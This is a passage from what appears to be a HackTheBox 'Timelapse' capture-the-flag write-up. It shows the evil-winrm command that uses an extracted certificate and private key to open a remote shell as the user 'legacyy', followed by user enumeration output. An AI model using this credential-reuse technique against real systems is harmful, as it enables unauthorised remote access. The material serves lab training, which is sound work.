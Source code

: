 ```bash
m966H8kF6t7pHZPlEDZMr17u50kvTN1D4PtlCud9SaPsokSbKNoFgX1KNX5m72F0
3KCLImh1z4ltxsc6JgOgncCqdFfX3t0Ey3R7KGx6reLtvU4FZ+nhvlXTeJ/PAXc/
fwa2rfiPsfV51WTOYEzcgpngdHJtBqmuNw3tnEKmgMqp65KYzpKTvvM1JjhI5txG
hqbdWbn2lS4wjGy3YGRZw6oM667GF13Vq2X3WHZK5NaP+5Kawd/J+Ms6riY0PDbh
nx143vIioHYMiGCnKsHdWiMrG2UWLOoeUrlUmpr069kY/nn7+zSEa2pA
-----END CERTIFICATE-----
```

Using these `legacyy_dev_auth.crt` and `legacyy_dev_auth.key` files, I can open a shell with `evil-winrm`.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                 

Warning: SSL enabled

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

I got a shell as `legacyy`.


# Shell as `svc_deploy`

### Enumeration

Let's check current user.

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user legacyy
User name                    legacyy
Full Name                    Legacyy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/23/2021 11:17:11 AM
Password expires             Never
Password changeable          10/24/2021 11:17:11 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/23/2024 12:33:59 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *Development
```